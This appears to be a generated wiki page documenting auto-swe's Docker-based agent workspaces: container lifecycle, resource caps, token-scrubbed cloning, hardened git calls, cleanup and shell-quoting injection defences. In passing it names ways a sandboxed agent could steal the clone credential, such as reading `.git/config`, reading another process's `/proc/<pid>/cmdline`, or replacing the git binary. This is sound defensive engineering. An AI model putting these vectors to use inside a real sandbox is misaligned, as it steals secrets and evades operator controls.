

# Docker-in-Docker Agent Workspaces

> Indexed at commit `ae416937` on 2026-10-03 · [view on GitHub](https://github.com/yorch/auto-swe/tree/ae416937)

## Relevant source files

- [packages/worker/src/activities/workspace.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts)
- [packages/shared/src/lib/systemConfig.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/systemConfig.ts)
- [packages/worker/src/lib/ephemeralContainer.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts)
- [packages/worker/src/lib/execUtils.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts)
- [packages/worker/src/lib/redactToken.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/redactToken.ts)
- [packages/worker/src/activities/shellStep.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts)
- [packages/worker/src/activities/containerStep.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/containerStep.ts)
- [packages/worker/src/activities/runAgentTask.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/runAgentTask.ts)
- [packages/worker/src/agents/workspaceTools.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts)
- [packages/worker/src/agents/toolOutputOffload.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/toolOutputOffload.ts)
- [packages/worker/src/agents/preWriteSecurityCheck.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/preWriteSecurityCheck.ts)
- [packages/worker/src/agents/claudeCode/runtime.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/runtime.ts)
- [packages/worker/src/agents/claudeCode/policy.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/claudeCode/policy.ts)
- [packages/worker/src/lib/shellCommandScanner.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/shellCommandScanner.ts)
- [packages/worker/src/lib/sensitiveFileScanner.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/sensitiveFileScanner.ts)
- [packages/worker/src/lib/scm/github.ts](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/scm/github.ts)
- [packages/worker/Dockerfile](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/Dockerfile)
- [scripts/check-invariants.mjs](https://github.com/yorch/auto-swe/blob/ae416937/scripts/check-invariants.mjs)

## Overview

Agent code never runs in the worker process. Every activity that lets a model read, write, or execute anything provisions a Docker container, hands the model a set of tools that translate to `docker exec`, and destroys the container when the activity ends. The worker reaches the Docker daemon through the host socket mounted at `/var/run/docker.sock` and a Docker CLI binary copied from the `docker:28-cli` image into the runtime stage, so containers are siblings of the worker rather than nested children ([packages/worker/Dockerfile#L88-L92](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/Dockerfile#L88-L92)). Because most activities hold a workspace, the worker caps concurrent activity executions at `WORKER_MAX_CONCURRENT_ACTIVITIES` so a burst of workflows cannot exhaust the Docker host ([packages/worker/src/index.ts#L108-L111](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/index.ts#L108-L111)).

Two container runtimes exist side by side, with different threat models. `createWorkspace` builds the long-lived **agent workspace**: bridge networking, a writable container layer, a cloned repository, and a credential-free `origin`. `runEphemeralContainer` builds the **locked-down sandbox** used for author-supplied shell and container steps: `--network=none` by default, `--read-only` root, and a single bind-mounted volume ([packages/worker/src/lib/ephemeralContainer.ts#L1-L17](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L1-L17)).

Which model-driven loop talks to the workspace is a separate choice. The Mastra tool loop calls the four workspace tools directly; the optional Claude Code runtime starts the `claude` binary inside the same container through `docker exec`. This page covers the container side of both; the runtime seam is in [Agent Runs and Implementer Runtimes](./4.6-agent-runs-and-implementer-runtimes.md).

Sources: [packages/worker/src/activities/workspace.ts:L529-L832](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L529-L832) [packages/worker/src/lib/ephemeralContainer.ts:L1-L17](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L1-L17) [packages/worker/Dockerfile:L86-L92](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/Dockerfile#L86-L92) [packages/worker/src/index.ts:L70-L111](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/index.ts#L70-L111)

## Container Lifecycle

```mermaid
stateDiagram-v2
    [*] --> Resolving: createWorkspace(authedRepoUrl, branch, defaultBranch)
    Resolving --> Started: docker run -d --name workspace-<hex>
    Resolving --> Reaped: docker run failure
    Started --> Netns: metadata blackhole sidecar
    Netns --> Provisioning: git install + identity
    Provisioning --> Cloned: git clone via http.extraheader
    Cloned --> Scrubbed: git remote set-url origin cleanUrl
    Provisioning --> Reaped: setup failure
    Cloned --> Reaped: setup failure
    Scrubbed --> Active: Workspace handle returned
    Active --> Active: exec / execCapture / execStdin / gitAuthed
    Active --> Destroyed: destroy() in finally
    Reaped --> [*]: docker rm -f + redactExecError
    Destroyed --> [*]
```

The container is named `workspace-<random-hex>`, built from eight random bytes, so two concurrent activities on the same host never collide ([packages/worker/src/activities/workspace.ts#L591-L592](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L591-L592)). The name exists before the container does, and everything from `docker run` onward sits inside one `try`: any failure, including a `docker run` whose client timed out after the daemon had already created the container, removes the container by that name and rethrows with the credential redacted ([packages/worker/src/activities/workspace.ts#L636-L647](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L636-L647), [#L734-L745](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L734-L745)). There is no state in which a half-provisioned container survives the function.

Sources: [packages/worker/src/activities/workspace.ts:L568-L755](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L568-L755)

## Creation and Resource Caps

`createWorkspace` calls `resolveWorkspaceInfra()` on every invocation and takes the base image from the caller when one is supplied, else from the resolved infrastructure value; the result is validated against `DOCKER_IMAGE_REF_RE` before it reaches a command line ([packages/worker/src/activities/workspace.ts#L568-L574](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L568-L574)). The resolver reads `process.env` and never the database: workspace sizing, images, the metadata-block policy, the worker's concurrency cap and the scanner regex budget are deployment decisions, so they follow the host the worker runs on and no admin session, team or run can change them ([packages/shared/src/lib/systemConfig.ts#L733-L823](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/systemConfig.ts#L733-L823)).

| Value | Docker flag or use | Default | Environment variable |
| --- | --- | --- | --- |
| Memory | `--memory` | `4g` | `WORKSPACE_MEMORY`, must look like `512m` or `4g` |
| CPUs | `--cpus` | `2` | `WORKSPACE_CPUS`, any positive number |
| Processes | `--pids-limit` | `512` | `WORKSPACE_PIDS_LIMIT`, positive integer |
| Base image | image argument | `node:24-alpine` | `WORKSPACE_IMAGE`, a valid image reference |
| Metadata sidecar image | `buildMetadataBlockArgs` | `alpine:3.20` | `WORKSPACE_METADATA_BLOCK_IMAGE`, a valid image reference |
| Metadata block on or off | gates the sidecar | on | `WORKSPACE_BLOCK_METADATA`; only the literal `false` turns it off |
| Concurrent activities | Temporal worker cap | `10`, clamped to 1-1000 | `WORKER_MAX_CONCURRENT_ACTIVITIES` |
| Scanner pattern budget | per-target wall clock | `250` ms, clamped to 10-60000 | `SCANNER_REGEX_BUDGET_MS` |

Two behaviours keep a typo from becoming a silent policy change. The resolver is lenient, because it is read on scan paths that must never throw: an unusable value falls back to its default and logs once. The worker's boot calls `assertWorkspaceInfraEnv()`, the strict counterpart, which names every set-but-unusable variable at once and fails the start instead; `WORKSPACE_BLOCK_METADATA` accepts only `true` or `false` there, since `0` or `no` would read as "off" to an operator while leaving blocking on ([packages/shared/src/lib/systemConfig.ts#L832-L876](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/systemConfig.ts#L832-L876), [packages/worker/src/index.ts#L48-L51](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/index.ts#L48-L51)). Oversized numbers are clamped with a warning rather than rejected ([packages/shared/src/lib/systemConfig.ts#L751-L765](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/systemConfig.ts#L751-L765)). The scanner budget reaches the scanners through `resolveRegexBudgetMs()`, which reads the same value ([packages/shared/src/lib/regexExec.ts#L95-L105](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/regexExec.ts#L95-L105)).

The memory value is still shell-quoted at the call site, as defence in depth on top of the format check; the numeric caps cannot carry metacharacters ([packages/worker/src/activities/workspace.ts#L641-L647](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L641-L647)). The container is started with `--init` so a reaper owns PID 1.

One image-shaped setting remains in the setting registry rather than the environment: `workspace.gitHelperImage`, the image of the short-lived container that clones and pushes for a shell step. It cascades to team and organization because a team on an isolated network may need its own mirror ([packages/shared/src/config/registry.ts#L457-L472](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/config/registry.ts#L457-L472)).

The image argument carries one invariant. A caller-supplied `image` wins over the configured default, so callers pass `repo.executorImage ?? undefined` and never `?? '<literal>'`: a literal is a value, not a fallback, and silently makes `WORKSPACE_IMAGE` unreachable. `scripts/check-invariants.mjs` enforces it by finding every `createWorkspace(…)` call in the worker and failing when the fourth argument contains a quoted string ([scripts/check-invariants.mjs#L95-L124](https://github.com/yorch/auto-swe/blob/ae416937/scripts/check-invariants.mjs#L95-L124)). A named constant passes, and the eval harness uses one: `EVAL_WORKSPACE_IMAGE` pins `node:24-alpine` so a benchmark score stays comparable against its own history ([packages/worker/src/activities/evalHarness.ts#L42-L61](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/evalHarness.ts#L42-L61)).

The checker enforces four rules in total ([scripts/check-invariants.mjs#L391](https://github.com/yorch/auto-swe/blob/ae416937/scripts/check-invariants.mjs#L391)). Two concern this subsystem: the image-literal rule above, and the Dockerfile rule that every stage running `yarn` provisions one first and no other stage does, which applies to the worker image's builder and prod-deps stages ([scripts/check-invariants.mjs#L126-L201](https://github.com/yorch/auto-swe/blob/ae416937/scripts/check-invariants.mjs#L126-L201), [packages/worker/Dockerfile#L27](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/Dockerfile#L27), [#L61](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/Dockerfile#L61)). The other two cover the web root layout and the MCP code's database access.

Sources: [packages/shared/src/lib/systemConfig.ts:L733-L876](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/lib/systemConfig.ts#L733-L876) [packages/worker/src/activities/workspace.ts:L381-L392](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L381-L392) [packages/worker/src/activities/workspace.ts:L568-L647](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L568-L647) [packages/shared/src/config/registry.ts:L457-L472](https://github.com/yorch/auto-swe/blob/ae416937/packages/shared/src/config/registry.ts#L457-L472) [scripts/check-invariants.mjs:L45-L201](https://github.com/yorch/auto-swe/blob/ae416937/scripts/check-invariants.mjs#L45-L201)

## Cloning and Checkout

Workspace-creating activities obtain the clone URL from `getScmProvider(repoRef).cloneCredentials(repoRef)` rather than building it themselves ([packages/worker/src/activities/executeImplementation.ts#L123-L131](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/executeImplementation.ts#L123-L131)). The repository row is loaded with its `installation` relation, selecting both `host` and `installationId`, so `toRepoRef` can carry the installation's host and id into the ref ([packages/worker/src/lib/scm/index.ts#L43-L62](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/scm/index.ts#L43-L62)).

The token embedded in the URL is chosen by `runToken`, and it does change how the clone authenticates. In order: the repository's URL overrides must be on an allowed host; the platform credential for the repository's host is resolved and a web/API host mismatch is refused; then the launching user's own saved credential is used when the per-user feature is on and the run's launcher has a usable one for this repository; otherwise the platform credential for that host, which is the instance's own PAT or App only on the instance's host and a per-host credential for any other approved host ([packages/worker/src/lib/scm/github.ts#L184-L223](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/scm/github.ts#L184-L223), [#L64-L91](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/scm/github.ts#L64-L91), [#L139-L176](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/scm/github.ts#L139-L176)). `cloneCredentials` embeds that token as `https://x-access-token:<token>@host/…` ([packages/worker/src/lib/scm/github.ts#L283-L294](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/scm/github.ts#L283-L294)). `createWorkspace` does not know which kind of token it received, because it treats every authenticated URL the same way; how credentials are stored, scoped, and bound to a host is covered in [Repository Access, Sharing, and Per-User Credentials](./3.4-repository-access-and-credentials.md). The shell-step clone is authenticated the same way.

The clone URL arrives carrying a credential. `splitCloneCredential` strips it first and unconditionally, returning a scrubbed URL plus an `AUTHORIZATION: basic …` header value; the strip happens before the decode that can throw, so a token containing a bare `%` costs the auth header rather than the secret ([packages/worker/src/activities/workspace.ts#L86-L119](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L86-L119)). The clone then runs against the clean URL with the credential injected for that one call through `git -c http.extraheader`, so the token never appears on a command line and never lands in `.git/config` ([packages/worker/src/activities/workspace.ts#L687-L696](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L687-L696)). Every git invocation that may carry the credential is also hardened with `-c` overrides (no hooks, no fsmonitor, no credential helper, no `ext::` transport, no submodule recursion) and ignores the system and global git config, which an agent running as root can write ([packages/worker/src/activities/workspace.ts#L143-L177](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L143-L177)). A clone of a large repository gets a 10-minute timeout instead of the 2-minute default ([packages/worker/src/activities/workspace.ts#L684-L686](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L684-L686)).

Three checkout shapes exist. A pinned `checkoutSha` clones full history and cuts the working branch from that exact commit. `existingBranch` shallow-clones the named remote branch directly, which is what the node-level eval gate scores. The default path shallow-clones `defaultBranch` at depth 50 and cuts a fresh local branch from its HEAD ([packages/worker/src/activities/workspace.ts#L706-L723](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L706-L723)). After any of them, `origin` is explicitly reset to the clean URL as belt and braces, so a future change to the clone invocation cannot silently persist a token where an agent could `cat .git/config` it back out ([packages/worker/src/activities/workspace.ts#L725-L733](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L725-L733)).

Every workspace is a single-branch clone, so a bare `git fetch origin <other>` only writes `FETCH_HEAD`. `fetchBranchesSubcommand` builds explicit forced refspecs so `origin/<branch>` exists afterwards, which the gate and merge activities rely on ([packages/worker/src/activities/workspace.ts#L256-L270](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L256-L270)).

The optional `full_checkout` tier clones read-only reference repositories into `/workspace/deps/<name>`, capped at four, each sanitized to a single path segment and scrubbed the same way. A dependency that fails to clone has its half-clone removed and does not fail the run ([packages/worker/src/activities/workspace.ts#L436-L517](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L436-L517)). The one caller is the repository-dependency context builder ([packages/worker/src/lib/repoDependencyContext.ts#L237](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/repoDependencyContext.ts#L237)).

Sources: [packages/worker/src/activities/workspace.ts:L86-L177](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L86-L177) [packages/worker/src/activities/workspace.ts:L436-L517](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L436-L517) [packages/worker/src/activities/workspace.ts:L684-L733](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L684-L733) [packages/worker/src/lib/scm/github.ts:L64-L294](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/scm/github.ts#L64-L294)

## Command Execution

The returned `Workspace` exposes four execution paths. The first three are pinned to `/workspace/target-repo`; `gitAuthed` runs from that directory inside its own script ([packages/worker/src/activities/workspace.ts#L756-L830](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L756-L830)).

| Method | Semantics | Why it exists |
| --- | --- | --- |
| `exec` | Resolves stdout, rejects on non-zero exit, 2-minute default timeout | Git and file operations |
| `execCapture` | Returns `{exitCode, stdout, stderr}` without throwing, 10-minute default | Gates and the `bash` tool interpret exit codes themselves |
| `execStdin` | Streams content over `docker exec -i` | A single argv value is capped by the kernel at roughly 128 KiB; a pipe is not |
| `gitAuthed` | Injects the credential per call via `-c http.extraheader` | Network git operations against a scrubbed `origin` |

All four are asynchronous and pump Temporal heartbeats on a 30-second timer while the child process runs; the synchronous predecessors blocked the worker event loop and starved heartbeats for every concurrent activity ([packages/worker/src/lib/execUtils.ts#L26-L27](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L26-L27), [#L81-L96](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L81-L96)). A timeout kills the child and reports exit code 124; a spawn failure reports 127 ([packages/worker/src/lib/execUtils.ts#L232-L247](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L232-L247)).

**Timeouts reach inside the container.** Killing the local `docker exec` client leaves the process it started running in the container. So every command carries a fresh `AUTO_SWE_EXEC_ID` tag in its environment, which its whole process tree inherits, and an `onTimeout` callback runs a `/proc` script that stops and then kills every process carrying that tag ([packages/worker/src/activities/workspace.ts#L350-L379](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L350-L379), [#L594-L609](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L594-L609)). `execShellAsync`, `spawnCaptureAsync` and `spawnWithStdinAsync` invoke the callback when their child was killed for a timeout or output cap ([packages/worker/src/lib/execUtils.ts#L104-L144](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L104-L144), [#L261-L270](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L261-L270)). Activity cancellation is surfaced through `throwIfActivityCancelled` and `raceActivityCancellation` for steps that must not run after a cancel ([packages/worker/src/lib/execUtils.ts#L29-L78](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L29-L78)).

**`gitAuthed` is a single hardened exec.** The agent has had write access to `.git/` since the clone, so each authenticated call runs one script that (1) SIGSTOPs then SIGKILLs every process in the container except PID 1, the `sleep infinity` keeper and the script's own tree, so nothing the agent left running can read the credential from another process's `/proc/<pid>/cmdline`; (2) refuses to proceed if `.git` is not a plain directory and rewrites `.git/config` from an allow-list, pinning `origin` to the scrubbed URL and exporting `GIT_DIR`/`GIT_WORK_TREE`; (3) runs the hardened git invocation. A `push origin …` is rewritten to push to the scrubbed URL explicitly with `--no-verify`, so the worker, not the repository, fixes the destination ([packages/worker/src/activities/workspace.ts#L216-L254](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L216-L254), [#L291-L318](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L291-L318), [#L333-L348](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L333-L348), [#L808-L830](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L808-L830)). The one thing it cannot defend against is code already running as root in the same container replacing the `git` binary itself ([packages/worker/src/activities/workspace.ts#L328-L332](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L328-L332)).

Failures on the credentialed paths run through `redactExecError`, which scrubs the token, the full header, and the header's bare base64 value out of `message`, `stdout`, `stderr`, and `cmd` before the error can reach Temporal history ([packages/worker/src/lib/redactToken.ts#L41-L68](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/redactToken.ts#L41-L68)).

Sources: [packages/worker/src/activities/workspace.ts:L15-L47](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L15-L47) [packages/worker/src/activities/workspace.ts:L216-L379](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L216-L379) [packages/worker/src/activities/workspace.ts:L594-L609](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L594-L609) [packages/worker/src/activities/workspace.ts:L756-L830](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L756-L830) [packages/worker/src/lib/execUtils.ts:L1-L270](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L1-L270) [packages/worker/src/lib/redactToken.ts:L1-L68](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/redactToken.ts#L1-L68)

## Cleanup

`destroy()` runs `docker rm -f` and swallows the error when the container is already gone ([packages/worker/src/activities/workspace.ts#L747-L755](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L747-L755)). Every caller must invoke it from a `finally` block, because a leaked container holds its memory and CPU reservation on the Docker host until an operator notices. Seven activity files create workspaces, and each destroys them on every path:

- `executeImplementation` ([#L126](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/executeImplementation.ts#L126), destroyed at [#L469](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/executeImplementation.ts#L469)).
- `implementerSession` ([#L123](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/implementerSession.ts#L123), [#L314-L318](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/implementerSession.ts#L314-L318)).
- `qualityGates`, which also destroys early when the checkout of the pushed branch fails ([#L168](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/qualityGates.ts#L168), [#L183-L190](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/qualityGates.ts#L183-L190), [#L245-L247](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/qualityGates.ts#L245-L247)).
- `standaloneGateRunner` ([#L47](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/standaloneGateRunner.ts#L47), [#L66-L68](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/standaloneGateRunner.ts#L66-L68)).
- `evalHarness` ([#L157](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/evalHarness.ts#L157), [#L254-L258](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/evalHarness.ts#L254-L258)).
- Both callers of `provisionMergeWorkspace` in `decomposition` ([#L421](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/decomposition.ts#L421), [#L179-L181](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/decomposition.ts#L179-L181), [#L325-L329](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/decomposition.ts#L325-L329)).
- `runAgentTask`, the only activity that holds two workspaces at once: the agent's container and a fresh "trusted" container, both destroyed in one `finally` ([#L216-L221](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/runAgentTask.ts#L216-L221), [#L298-L304](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/runAgentTask.ts#L298-L304), [#L377-L383](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/runAgentTask.ts#L377-L383)). The agent's tree is copied out by the Docker daemon with a size cap enforced while streaming, committed and judged in the trusted container, and only that commit is pushed; the push credential never enters the agent's container ([packages/worker/src/activities/agentRunFinalize.ts#L24-L42](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/agentRunFinalize.ts#L24-L42), [packages/worker/src/lib/execUtils.ts#L385-L489](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/execUtils.ts#L385-L489)).

Provisioning failures are handled separately, inside `createWorkspace` itself, by the `try`/`catch` described under the lifecycle ([packages/worker/src/activities/workspace.ts#L734-L745](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L734-L745)). The ephemeral runners take the same posture from the other direction: `docker run --rm` removes the container on exit, and a `finally` issues an idempotent `docker rm -f` for the case where the host process was killed mid-spawn; the sidecar runner does the same ([packages/worker/src/lib/ephemeralContainer.ts#L277-L300](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L277-L300), [#L384-L392](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L384-L392)). Shell steps and container steps additionally remove their throwaway Docker volume in a `finally` ([packages/worker/src/activities/shellStep.ts#L377-L379](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L377-L379), [#L497-L499](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L497-L499), [packages/worker/src/activities/containerStep.ts#L138-L144](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/containerStep.ts#L138-L144)).

Sources: [packages/worker/src/activities/workspace.ts:L734-L755](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L734-L755) [packages/worker/src/activities/runAgentTask.ts:L205-L383](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/runAgentTask.ts#L205-L383) [packages/worker/src/lib/ephemeralContainer.ts:L270-L392](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/lib/ephemeralContainer.ts#L270-L392) [packages/worker/src/activities/shellStep.ts:L377-L499](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L377-L499)

## `shellQuote`: the Injection Boundary

`shellQuote` is one line of implementation and the single control that keeps model-generated text from being read as shell syntax. It wraps a value in single quotes and rewrites every embedded single quote as `'\''`, which POSIX shells parse as a literal ([packages/worker/src/activities/workspace.ts#L49-L51](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L49-L51)).

Every `docker exec … sh -c` in `createWorkspace` passes its whole command through it, so the outer shell receives one argument no matter what the inner command contains ([packages/worker/src/activities/workspace.ts#L676-L682](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L676-L682), [#L756-L766](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L756-L766)). The call paths that must route values through it are the ones that cross a trust boundary:

- **Branch names, refs, and commit SHAs** on every clone, checkout, fetch, reset, and push. These come from ticket identifiers and spec JSON, not from a fixed vocabulary ([packages/worker/src/activities/workspace.ts#L706-L723](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L706-L723), and each refspec in [#L267-L270](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L267-L270)).
- **Clone URLs and the auth header.** `gitWithAuthHeader` quotes the header value itself, because callers embed the result in a shell script; the scrubbed URL written into the allow-listed `.git/config` and the push destination are quoted too ([packages/worker/src/activities/workspace.ts#L171-L177](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L171-L177), [#L240](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L240), [#L338-L341](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L338-L341)).
- **Every path the workspace tools touch**, after `safePath` normalizes it: `cat`, `mkdir -p`, `ls -la`, and the `cat >` redirection in `writeFile` ([packages/worker/src/agents/workspaceTools.ts#L22-L31](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L22-L31), [#L57](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L57), [#L92-L101](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L92-L101), [#L165](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/workspaceTools.ts#L165)).
- **The tool-output offload path and directory** ([packages/worker/src/agents/toolOutputOffload.ts#L166-L172](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/agents/toolOutputOffload.ts#L166-L172)).
- **Dependency checkout paths and URLs**, on top of `safeDepDirName` ([packages/worker/src/activities/workspace.ts#L454-L460](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L454-L460), [#L490-L502](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/workspace.ts#L490-L502)).
- **Every argument to `runDocker` in the shell step**, including the branch and both clone URLs inside the `sh -c` script that clones and scrubs, and the finalize script's branch and scrubbed URL ([packages/worker/src/activities/shellStep.ts#L97-L114](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L97-L114), [#L198-L229](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L198-L229), [#L249-L290](https://github.com/yorch/auto-swe/blob/ae416937/packages/worker/src/activities/shellStep.ts#L249-L290)).
